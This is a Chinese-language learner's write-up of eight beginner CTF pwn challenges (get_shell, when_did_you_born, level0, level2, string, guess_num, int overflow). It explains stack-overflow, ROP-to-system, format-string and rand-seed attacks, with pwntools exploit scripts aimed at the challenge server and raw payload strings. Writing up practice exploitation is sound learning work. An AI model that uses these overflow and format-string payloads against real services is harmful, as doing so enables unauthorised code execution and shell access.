##  1 get shell

本题是签到题
只需要连接远程端口，然后直接输入指令就可以了。

- way 1

  ```bash
  nc -nv ip port 
  cat flag
  ```

- 方法2 , 使用 pwntools

  ```python
  #coding = utf-8
  from pwn import *
  
  context.log_level = 'debug'
  io = remote('111.198.29.45', 54766)
  io.sendline('ls')
  io.sendline('cat flag')
  io.interactive()
  ```

## 2 when_did_you_born

首先使用 checksec 查看程序，发现程序开启了栈运行保护和canary。
然后直接使用 ghidra 反汇编二进制文件。通过字符串定位搜索找到程序入口 main 函数，直接读反编译源码。
找到关键代码如下：

```c
  do {
    iVar1 = getchar();
  } while (iVar1 != 10);
  if (input_name[0] == 0x786) {
    puts("You Cannot Born In 1926!");
  }
  else {
    puts("What\'s Your Name?");
    gets(local_28);
    printf("You Are Born In %d\n",(ulong)input_name[0]);
    if (input_name[0] == 0x786) {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
  }
```

查看程序执行流程可以发现，程序首先检查输入年龄是否为 1926，如果是就结束。
否则继续输入名称，gets 函数读入名称可能会造成栈溢出。
随便输入一个超长字符串，果然栈溢出了，但是由于开启了 canary ，因此报错如下：


然后想使用字符串填充的方式获得需要输入的payload，因为对缓冲区溢出的方向并不知道。

```bash
1234567890112233445566778899001112223334445556667778889990001111222233334444555566667777888899990000
```

后面发现自己这一步绕了很大的圈子。其实 name 和 age 是两个局部变量，只需要查看在栈上的相对地址即可确定。
使用 ghidra 查看两个局部函数的相对地址。

二者对应在栈中的布局如下：


需要记住的是，**小端序中，栈溢出的方向是从低地址向高地址**。
接下来就是一些 pwntools 的漏洞利用技巧

```python
from pwn import *
r=remote("111.198.29.45",33469)
payload='a'*(0x20-0x18)+p64(1926)
r.recvuntil("What's Your Birth?\n")
r.sendline("0")
r.recvuntil("What's Your Name?\n")
r.sendline(payload)
print r.recv()
print r.recv()
#r.interactive()
```

## 3 hello_pwn

这题很简单，直接下载附件使用 ghidra ，定位到main函数如下：



如图可以发现 main 函数读取一个字符串到内存中，然后检查字符串的结尾段是不是 aaun。因此随便构造一个 payload 如下即可。

```bash
a*(DAT_0060106c - DAT_00601068-) + aaun 
```

例如 aaaaaaun ，就可以成功执行 cat flag 的指令。


## 4 level0

直接查看 main 函数，非常粗暴，直接就是调用一个漏洞函数vulnerable_function,
函数vulnerable_function 也很粗暴，直接向一个  0x80 大小的字符串数组中写入一个 0x200 的字符串。那可不就得栈溢出吗 !
因为局部变量非常简单，就一个字符串，直接构造 payload 。 


函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。
观察上图中可知，局部变量只有字符串数组一个，压栈的寄存器只有ebp。因此构造的payload如下。

```python
from pwn import * 
r = remote("111.198.29.45",48316)#远程连接
#'a'*0x8是填充ebp，p64(0x00400596)是填充ret
payload = 'A' * 0x80 + 'a' * 0x8 + p64(0x00400596)
r.recvuntil("Hello, World\n")#直到接收到Hello,World才执行后面的操作
r.sendline(payload)#发送一行数据
r.interactive()#交互shell
```

函数执行 ret 指令的时候，相当于执行 `pop ip`
函数执行 LEAVE  指令时，恢复了过程被调用时 ESP 和 EBP 的值，结束了被调用过程的栈帧。
此处还有个问题，此处的 `0x00400596` 的地址，直接在 ghidra 中打开就是这个地址，因此有两种可能：
1. ghidra 模仿了程序在加载到内存中的过程，加载的起始地址，就是内部相对地址。
2. 程序在链接的过程中就把相对地址直接硬编码到程序中了（感觉这种可能性不大）

## 5 level2

开头就有个坑，因为前面几个题目都是 x64 ，因此本题先入为主的就认为也是 x64 的程序。但是后面才发现程序是 32 位的，这直接关系到 payload 的构造，因此还是应该更加慎重一些。


本题中题目给的提示十分直接明了，构造rop链，执行system('/bin/bash')，拿到shell，即可获得执行 cat flag 的权限。

首先找到 main 函数进行分析，可以发现 main 函数直接简单粗暴的调用了漏洞函数，进一步查看漏洞函数，发现程序向一个大小为 0x88  的字符串数组，输入一个 0x100 的字符串。这铁定得溢出啊，接下来就是构造 rop 调用 system 函数了。



**函数地址：**
直接查看到 system 函数存在本程序的 plt 表中，那就简单太多了，直接获取到 system@plt 函数对应的解析地址，因为 system@plt是一个内部函数，因此使用相对地址即可。
此处注意区分外部导入函数 system ，和内部函数 system@plt。

**内部函数 system@plt**


**外部导入函数**


**参数：**
查找字符串发现'/bin/bash'，存在于程序数据段，直接拿来用。


因此构造出来的 payload 如下

```bash
0x88+ 0x4*1+ p32(system_addr) + p32(0) + p32(字符串_addr)
```

这里还有一个需要注意的问题，这个函数的调用只传了一个参数，注意多个参数传递时候的顺序问题。


## 6 string

main函数分配了两个指针并赋值，给出了两个指针的地址，根据函数知道两个指针的内容。

```bash
puVar2[0] = 0x44   68
puVar2[1] = 0x55
```

第一次做的时候读了很久的 main 函数，但是找不到题目突破点。这也证明了以往对**漏洞学习的无效性**。

在学习漏洞类型的时候，应该学习各种关键信息，如**触发漏洞的条件**，**缓解方法**，**包含漏洞的各种函数**。

搜索程序包含的 string ，找不到相关的 string ，如 flag 、bin、system 等。

查看 main 函数包含 3 个主要函数，每个函数都像通关一样，可以进行各种操作。

最后一个函数，会比较`*puVar2 == puVar2[1]` ,如果相等，会直接读取一段 shellcode ，并通过`函数指针`执行。



那么现在继续向前看看，如何找到利用条件，使得构造条件被满足。

main 函数中一共有 3 个函数，第 1 个函数毫无卵用， 第二个函数**有printf函数，很可能存在格式化字符串漏洞**。第3个函数是比较函数，可以比较条件，并执行shellcode。

现在测试第二个函数是否存在格式化字符串漏洞，直接输入超长格式化字符串测试,由于触发格式化字符串漏洞导致内存越界访问，**程序崩溃**，认为存在格式化字符串漏洞。

```bash
east
1
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```



目前的想法是通过格式化字符串漏洞，改变内存，而不破坏 canary ，达到 fun_3 的利用条件。

但是我现在还不会格式化字符串漏洞，我去学一下。

学完回来啦，其实学完还是不知道怎么构造格式化字符串，于是借鉴了前辈的构造方法。

在审题的时候还忽略了一个条件，在 fun_2  printf 函数之前，还有一个 scanf 函数，该函数读取用户输入，存入局部变量中，也就是栈上 ，这是用户控制输入。

**漏洞触发条件： 用户输入 scanf ，然后 printf**

首先打印一大串字符串，确定输入在栈上处于第 7 个参数的位置，由于题目降低难度，直接给了需要写入的格式化字符串地址，因此直接将该地址写入，使用 %n 和宽度控制确定覆盖栈地址，构造的格式化字符串如下: 

```bash
# 打印出输入参数所在的栈地址
%d,%d,%d,%d,%d,%d,%d,%d,%d,%d,%d

#写入puVar2[1]的地址  10进制输入

#使用输出精度将打印字符串长度写入栈中  12*5+8
"%12x%12x%12x%12x%12x%8x%n"
```

再输入一个 shellcode，拿到 shell。

[exp不会写，学学前辈的。](./code/string_exp.py)

## 7 guess_num  

本题看起来比较简单，直接查找关键字，找到main函数。

观察main函数，流程也很简单。

但是函数条件的意思看不懂

```bash
if (rand_num % 6 != -1) 
```

尝试使用gdb调试但是发现无法调试，因为下断点无效。

使用 checksec 查看程序保护措施



发现开启了 PIE ，可能因为这个原因导致程序虚拟地址变化，导致调试失败。

仔细思考，直觉这题应该是构造整数溢出,scanf 输入一个大整数，溢出，导致取模为 -1 .

自己一点不会，现在去补补溢出和取模相关知识。

使用ghidra 发现看不懂题目，又尝试使用 ida 打开，发现这两个反汇编工具的反汇编结果相差竟然十分之大。

但是看起来似乎 ida 的反汇编结果更加合理，因此决定使用该工具的反汇编结果。

题目就变了，变成了输入数字和随机数字相等，才能正确通关。

查看两个数字的关系，发现本题也不是栈溢出啊啊啊啊



但是但是啊啊啊啊，有个输入名字，v7 ， 在栈顶，那不就是妥妥的栈溢出了吗？哈哈哈

但是v7只在循环外面输入1次啊喂，那循环里的剩下9次咋办?

真的不知道怎么办了，偷偷看了题解，原来rand函数可以覆盖伪随机种子。

一直听说 srand/rand 函数是伪随机，现在做个小实验测试一下

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    // This program will create same sequence of
    // random numbers on every program run 
    for(int i = 0; i<5; i++)
        printf(" %d ", rand()); 
    return 0;
}
```

只使用rand 函数发现运行多次产生的序列都是一样一样的，就伪随机呗！



为了加强 rand 函数的随机性，使用 srand() 函数制造一个种子，作为 rand 的输入参数。但是如果 rand 使用相同的种子，结果仍然是一样的，会产生同样的序列。

```bash
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    // This program will create same sequence of
    // random numbers on every program run
    srand(1);
    for(int i = 0; i<5; i++)
        printf(" %d ", rand());
    return 0;
}
```



关于这两个函数是这样的

```bash
srand(seed)  // 设置种子
rand()  // 通过种子随机出一串数字。 如果在使用该函数之前没有用 srand() 函数设定种子，那么默认执行 srand(1)
```

查看栈空间，发现可以用初始输入 name ，覆盖 rand seed ，这样就可以算出相同的随机序列。



随机数字是 3 3 

但是不知道为什么，测试的结果却是不对的。

之前非常粗暴的用了字符串强制转换 int 作为种子， (int)'AAAA' ，应该是实际转化出来的结果和程序的结果并不相同。

重新更换溢出字符串，并手动替换。

```
00000000000000000000000000000000000000000000000000
```

x64 下 int 4 byte ,0 作为可见字符输入 , 0 的 ascii 是 48 / 0x30 因此在内存中的排布应该是

```bash
30 30 30 30 30 30 30 30
```

程序取出4个字节 0x30，并以 int 的方式读取 ,使用计算器手动算一下：




把 808464432 作为 srand 种子，计算结果果然和目标程序相同。

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    // This program will create same sequence of
    // random numbers on every program run

    srand(808464432);
    for(int i = 0; i<11; i++)
        {
        printf(" %d ", rand()%6+1);
    }
    return 0;
}
```

## 8 int overflow

使用 flag 查找关键字，发现可疑函数，`0x0804868b`, 执行 system(`cat flag`), 看来题目应该是要通过缓冲区溢出执行该函数。

使用 checksec 发现程序给的还挺简单，既没有栈保护，也没有 PIE。

login 函数是程序的漏洞点，通过输入的 passwd 覆盖返回值，导致返回值是RA , 漏洞的触发点是 strcpy 函数，字符串拷贝的时候使用了危险函数，但是没有长度检查。


题目还卡了一个条件，passwd 的长度强制转换为 byte 以后需要满足  4< len <8

计算一下

```bash
python2 -c 'print("1\naaa\n"+"A"*24+"\x8b\x86\x04\x08"+"A"*232)' > text
python2 -c 'print("AA%15$nA"+"\x38\xd5\xff\xff")' > text
```

最后发现 payload 构造错误,看栈构造应该用 bp 指针，而不是去数有几个参数。因此此处  buffer 的长度应该是  bp - 0x18 , 之所以计算错误是因为把右边的 xref 的地址当成了栈的地址。



需要让 byte / unsigned int8 溢出，数字只需要超过 255， 因此构造 payload 如下：

```bash
'a'*0x14 +'A'*4 + p32(function_addr) + (255 -0x18 -4 +4 )*'a'
```

通过这题，更加了解栈的构造了。

做题的时候还有一个条件没审到。输入的 password 长度是有限制的， `0x199`




## 问题

- 函数调用栈中，函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。那么返回值和寄存器是什么时候压栈的，是在 caller 中，还是在 callee 中？
  返回值是在执行 call function 的时候，将返回值入栈的。寄存器的保存和恢复是在 callee 中完成的。
- **内部函数如何相互调用？是怎么找到对应的相对地址的？** 

## 参考

- [攻防世界XCTF-Pwn入门11题解题报告](https://zhuanlan.zhihu.com/p/113052039)
- [pwn remote function](https://docs.pwntools.com/en/stable/tubes/sockets.html?highlight=remote(#pwnlib.tubes.remote.remote)
- [PIE保护详解和常用bypass手段](https://www.anquanke.com/post/id/177520)
- [rand() and srand() in C/C++](https://www.geeksforgeeks.org/rand-and-srand-in-ccpp/)

## 体会

之前一直不知道找函数漏洞的目的是什么，现在理解的利用结果就是 get shell ，菜鸡入门，仍需努力。

- 成功执行 system('/bin/bash')
- 成功执行 cat flag 相关函数。

二进制程序各种保护机制

- DEP（NX）的话就不能直接执行栈上的数据
- canary 金丝雀
- PIE 是什么？ 地址随机加载，使得文件中的虚拟地址不可用。

## 其他

使用 linux 编译 gcc

